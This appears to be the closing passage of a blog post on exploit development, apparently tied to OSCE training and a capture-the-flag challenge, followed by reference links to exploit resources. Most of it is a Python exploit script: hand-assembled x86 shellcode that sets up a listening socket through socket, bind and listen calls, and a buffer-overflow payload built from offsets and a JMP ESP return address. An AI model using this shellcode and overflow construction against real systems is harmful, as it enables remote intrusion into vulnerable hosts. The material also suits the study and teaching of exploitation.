 # invoke the call to `socket`
block1 += "\xFF\xD3"                           # CALL EBX
# save our socket handle
block1 += "\x89\xC7"                           # MOV EDI, EAX
# Find sockaddr
block1 += "\x89\xD9"                           # MOV ECX, EBX
block1 += "\xB5\x74"                           # MOV CH, 0x74
# adjust the port number by bumping it up one to 22
block1 += "\xFE\x41\x03"                       # INC BYTE [ECX+3]
# adjust the call pointer to reference `bind`
block1 += "\xB3\x54"                           # MOV BL, 0x54
# prepare the parameters on the stack for the `bind` call
block1 += "\x6A\x10"                           # PUSH 0x10
block1 += "\x51"                               # PUSH ECX
block1 += "\x50"                               # PUSH EAX
# invoke the call to `bind`
block1 += "\xFF\xD3"                           # CALL EBX
# adjust the call pointer to reference `listen`
block1 += "\xB3\x5C"                           # MOV BL, 0x5C
# prepare the parameters on the stack for the `listen` call
block1 += "\x6A\x7F"                           # PUSH 0x7F
block1 += "\x57"                               # PUSH EDI
# invoke the call to `listen`
block1 += "\xFF\xD3"                           # CALL EBX
# set a breakpoint so we can see what's going on
block1 += "\xCC"

command  = ""
command += "Z" * (offsets['SC'] - len(command))
command += "B" * (offsets['EIP'] - len(command))
command += struct.pack("<L", target['JMPESP'])
command += "C" * (offsets['ESP'] - len(command))
command += block1
command += "E" * (max_size - len(command))


  [OSCE]: http://buffered.io/posts/osce-and-me/
  [ExploitDB]: http://exploit-db.com/
  [Corelan]: https://www.corelan.be/
  [Fuzzy Security]: http://www.fuzzysecurity.com/
  [CTF]: https://en.wikipedia.org/wiki/Capture_the_flag
  [ShellStorm]: http://www.shell-storm.org/
  [Ammar]: http://clog.ammar.web.id/2013/06/idsecconf-2013-ctff-offline-challenge.html
  [idsecconf]: http://2013.idsecconf.org/
  [Meterpreter]: https://github.com/rapid7/meterpreter
  [Immunity Debugger]: https://www.immunityinc.com/products-immdbg.shtml
  [Mona.py]: http://redmine.corelan.be/projects/mona
  [Corelanc0d3r]: https://twitter.com/corelanc0d3r
  [muts]: https://twitter.com/kalilinux